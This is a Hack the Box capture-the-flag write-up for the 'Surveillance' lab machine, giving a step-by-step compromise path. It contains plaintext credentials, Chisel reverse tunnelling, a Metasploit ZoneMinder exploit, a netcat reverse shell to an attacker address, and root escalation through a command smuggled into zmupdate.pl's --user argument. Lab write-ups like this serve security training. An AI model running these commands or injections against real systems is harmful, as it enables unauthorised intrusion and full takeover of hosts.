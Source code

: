 ```yaml
---
description: >-
  H3xano's write-up on the HTB machine : [Medium] Surveillance
title: Hack the Box - Surveillance Writeup
date: 2023-12-13 00:00:00 -0000
categories: [Hack the Box, Writeup]
tags: [htb, hacking, hack the box, writeup]     # TAG names should always be lowercase
show_image_post: true
image: /assets/img/surveillance-infocard.png
---
```


## HTB - Surveillance

## Overview

![Descriptive information card about Surveillance](/assets/img/surveillance-infocard.png)

The target machine, named "Surveillance", is a medium difficulty Linux machine. It involves multiple steps for compromise. It begins with establishing a foothold as the www-data user, followed by privilege escalation through the Matthew user. The final escalation results in root access via the Zoneminder user.

### Target Information:

- **IP Address:** `<machine ip>`
- **Users:** www-data, Matthew, zoneminder

## Foothold:

### www-data to Matthew:

1. **Connect as www-data:**
   ```bash
   ssh www-data@<machine ip>
   ```
   Upon successful connection, retrieve the credentials for the Matthew user: `matthew:starcraft122490`.

### Matthew to Zoneminder:

1. **Port Forwarding with Chisel:**
   - Utilize Chisel for secure and efficient port forwarding.
     ```bash
     # Run Chisel server at attacker's machine
     ./chisel server --port 1337 --reverse --socks5
     ```

     ```bash
     # Transfer Chisel to victim's PC
     python -m http.server 8888
     wget <your_ip>:8888/chisel
     chmod +x chisel
     ./chisel client <your_ip>:1337 R:<victim_port>:127.0.0.1:8080 &
     ```

2. **Access Zoneminder CMS:**
   - The forwarded port allows access to the Zoneminder CMS from the attacker's machine. Open the browser and navigate to `http://127.0.0.1:<victim_port>`.

3. **Exploitation with Metasploit:**
   - Utilize Metasploit to exploit a vulnerability in Zoneminder Snapshots.
     ```bash
     msfconsole
     ```

     ```bash
     use exploit/unix/webapp/zoneminder_snapshots
     ```

     ```bash
     set RHOSTS <victim_ip>
     set RPORT <victim_port>
     set LHOST <your_ip>
     set TARGETURI /
     ```

     ```bash
     exploit
     ```

     ```bash
     shell
     ```

   This sequence results in the establishment of a Meterpreter session, providing a shell on the victim machine.

### Retrieve User Flag:

4. **Locate User Flag:**
   - Once in the Meterpreter session, navigate to the user's home directory and retrieve the user flag.
     ```bash
     cat /home/Matthew/user.txt
     ```

## Privilege Escalation:

### Zoneminder to Root:

1. **Prepare Reverse Shell:**
   - Create a reverse shell script (`rev.sh`) and place it in `/tmp` on the victim machine.
     ```bash
     #!/bin/bash
     busybox nc 10.10.xx.xx 443 -e sh
     ```

2. **Start a Listener:**
   - Initiate a listener on the attacker's machine to capture the reverse shell connection at port 443.

3. **Execute Privilege Escalation Command:**
   - Run the following command as the zoneminder user to leverage the `zmupdate.pl` script for privilege escalation.
     ```bash
     sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/rev.sh)' --pass=ZoneMinderPassword2023
     ```

4. **Retrieve Root Flag:**
   - Upon execution, the reverse shell script triggers a connection to the attacker's machine. Navigate to the root directory and retrieve the root flag.
     ```bash
     cat /root/root.txt
     ```

## Conclusion:

This comprehensive approach ensures a systematic compromise of the target machine, covering initial access, privilege escalation, and retrieval of both user and root flags. It is crucial to replace placeholder values such as `<machine ip>`, `<your_ip>`, and `10.10.xx.xx` with actual values during the exploitation process. Happy hacking!

